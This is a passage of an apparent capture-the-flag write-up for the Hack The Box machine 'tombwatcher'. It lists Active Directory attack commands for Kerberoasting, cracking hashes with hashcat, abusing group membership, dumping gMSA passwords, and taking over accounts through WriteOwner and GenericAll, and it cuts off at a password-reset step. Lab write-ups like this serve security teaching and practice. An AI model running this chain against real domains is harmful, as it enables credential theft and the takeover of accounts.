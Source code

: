 ```
python3 targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!'
```

- Result: kerberoast hash, crackable with **hashcat**:

```
hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt
```

- **Result:** alfred : bas*********

---

## Group abuse, gMSA, service user

### Group membership expansion

```
bloodyAD -u 'alfred' -p 'bas*******' -d tombwatcher.htb --dc-ip 10.10.11.72 add groupMember INFRASTRUCTURE alfred
```

### gMSA dump

```
python3 gMSADumper.py -u 'alfred' -p 'bas******' -d 'tombwatcher.htb'
```
- Hash: ansible_dev$ : <hash>

### Password change to Sam user

```
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u 'ansible_dev$' -p '<hash>' set password SAM 'NoSecHere!'
```

---

## WriteOwner / GenericAll abuse, John reset

### Take over with WriteOwner:

```
impacket-owneredit -action write -target 'john' -new-owner 'sam' 'tombwatcher.htb/sam':'NoSecHere!' -dc-ip 10.10.11.72
```

### GenericAll on John (using Sam):

```
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u 'sam' -p 'NoSecHere!' add genericAll john sam
```

### Reset John user's password:
